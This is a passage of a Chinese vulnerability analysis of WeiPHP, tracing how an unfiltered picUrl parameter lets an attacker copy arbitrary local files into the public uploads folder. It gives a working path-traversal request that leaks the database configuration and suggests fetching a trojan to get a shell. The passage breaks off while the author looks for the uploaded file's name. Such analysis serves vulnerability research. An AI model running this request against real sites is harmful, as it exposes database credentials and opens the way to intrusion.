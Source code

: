 ```php
```

分析传入变量 **picUrl** 的 **wp_file_get_contents**方法

```php
$content = wp_file_get_contents($picUrl);
```

函数文件位置 **application\common.php**

![](http://wikioss.peiqi.tech/vuln/weiphp-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析

```php
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```

这里创建了有关当前时间的图片文件，并写入文件夹**/public/uploads/picture/** 下

我们先尝试控制变量 **$picUrl** 来写入数据库配置文件到图片中

```
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```

![](http://wikioss.peiqi.tech/vuln/weiphp-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

查看目录**/public/uploads/picture/**，并用记事本打开写入的jpg文件

![](http://wikioss.peiqi.tech/vuln/weiphp-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

得到数据库配置文件的信息，既然这个变量可控，我们也可以通过这个方法下载木马文件，再通过解析漏洞或者文件包含等其他漏洞来getshell

![](http://wikioss.peiqi.tech/vuln/weiphp-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

在当前条件下并不知道文件名是什么，所以回到代码中继续寻找可以获取文件名的办法

![](http://wikioss.peiqi.tech/vuln/weiphp-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```php
if ($res) {
            $file = array(
                'name' => $picName,
                'type' => 'application/octet-stream',
                'tmp_name' => $picPath,
                'size' => $res,
                'error' => 0
            );

            $File = D('home/Picture');
            $cover_id = $File->addFile($file);
        }
```
